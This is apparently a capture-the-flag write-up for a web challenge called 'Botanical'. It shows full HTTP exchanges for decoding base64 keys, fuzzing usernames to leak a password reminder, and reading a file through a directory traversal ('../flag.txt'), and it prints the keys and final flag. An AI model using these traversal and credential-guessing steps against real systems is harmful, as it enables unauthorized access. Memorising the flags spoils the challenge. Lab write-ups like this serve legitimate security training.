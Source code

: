 # CyberQuest 2025 - Botanical

## Description

In the middle of the town, there is a botanical garden. These plants has extreme habitat, sometimes the temperature could be very unique. One of the worker has permission for to visit the inner garden, where there is a diary about who planted or removed a plant in the past.

Challenge difficulity: `medium`

`cq25-challenge0[1-9]-c.cq.honeylab:36700/apidocs/#`

## Metadata

- Filename: -
- Tags: `swagger`, `api`, `brute-force`, `directory traversal`, `base64`

## Solution

### Reconnaissance

We are presented with a `Botanical API` ([apispec_1.json](files/apispec_1.json)) (Swagger API description).

![Swagger](media/swagger.png)

After examining the plant and greenhouse related API endpoints we can see that some of the endpoint require authentication:
- Reading the greenhouse log files
- `/flag` endpoint, which also requires 2 keys

### Climates

The climates are double base64 encoded.

The climate of plant `6384` is special: `YTJWNWV6Rm1YM2t3ZFY5amRYUmZNRzR6WDNSeU16Tjk`

```json
{"climate":"YTJWNWV6Rm1YM2t3ZFY5amRYUmZNRzR6WDNSeU16Tjk=","soil_ph":4.3,"typical_regions":["West Africa"]}
```
```json
{"bloom_season":"Winter","care":{"fertilizer_schedule":"Every 2 weeks during growing season","soil_type":"Sandy","sunlight_hours_per_day":12,"water_frequency_days":12},"common_name":"Hibiscus","description":"A plant used for calming teas and remedies.","family":"Poaceae","habitat":{"climate":"YTJWNWV6Rm1YM2t3ZFY5amRYUmZNRzR6WDNSeU16Tjk=","soil_ph":4.3,"typical_regions":["West Africa"]},"height_cm":1919,"id":6384,"scientific_name":"Ocimum basilicum","toxicity":"Mildly toxic"}
```

![Key 1](media/key1.png)

The first key is: `key{1f_y0u_cut_0n3_tr33}`

### Authentication

I paid for the hint, which suggested that one of the warehouse workers are called Suzy or similar.

I tried fuzzin the username and password fields with same name from a username list in Burp.

For `{"password": "susan","username": "susan"}` the server response was: `{"message":"Password Reminder for susan: the user naturelover"}`.

```
POST /auth HTTP/1.1
Host: 10.10.100.133:36700
Content-Length: 48
Accept-Language: en-US,en;q=0.9
accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Origin: http://10.10.100.133:36700
Referer: http://10.10.100.133:36700/apidocs/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{
  "password": "susan",
  "username": "susan"
}

HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.13
Date: Mon, 29 Sep 2025 21:10:21 GMT
Content-Type: application/json
Content-Length: 64
Connection: close

{"message":"Password Reminder for susan: the user naturelover"}
```

Trying the suggested password reminder (`naturelover`) gives us the admin token (`admin123`):


```json
{
  "username": "susan",
  "password": "naturelover"
}
```

```json
{"message":"Login successful","x_admin_token":"admin123"}
```

![Admin token](media/admin-token.png)

### Directory traversal

Using the `/greenhouse/logs/list` and `/greenhouse/logs` endpoints, we can query the names of the log files and their content.

However, directory traversal is possible (`/greenhouse/logs?file=../flag.txt`)

```
GET /greenhouse/logs?file=../flag.txt HTTP/1.1
Host: 10.10.100.133:36700
X-Admin-Token: admin123
Accept-Language: en-US,en;q=0.9
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Referer: http://10.10.100.133:36700/apidocs/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.13
Date: Mon, 29 Sep 2025 20:55:18 GMT
Content-Type: application/json
Content-Length: 51
Connection: close

{"log_entries":["key{y0u_ar3_in_th3_gr33nh0us3}"]}
```

![Key 2](media/key2.png)

The second key is: `key{y0u_ar3_in_th3_gr33nh0us3}`

### The flag

Getting the flag requires the admin token (`admin123`) and the two keys:

```
POST /flag HTTP/1.1
Host: 10.10.100.133:36700
Content-Length: 80
X-Admin-Token: admin123
Accept-Language: en-US,en;q=0.9
accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Origin: http://10.10.100.133:36700
Referer: http://10.10.100.133:36700/apidocs/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{
  "key1": "key{1f_y0u_cut_0n3_tr33}","key2":"key{y0u_ar3_in_th3_gr33nh0us3}"
}

HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.13
Date: Mon, 29 Sep 2025 20:56:08 GMT
Content-Type: application/json
Content-Length: 52
Connection: close

{"flag":"CQ25{pl4nt_tw0_m0re_tr33_instead_0f_0ne}"}
```

![Flag](media/flag.png)

The flag is `CQ25{pl4nt_tw0_m0re_tr33_instead_0f_0ne}`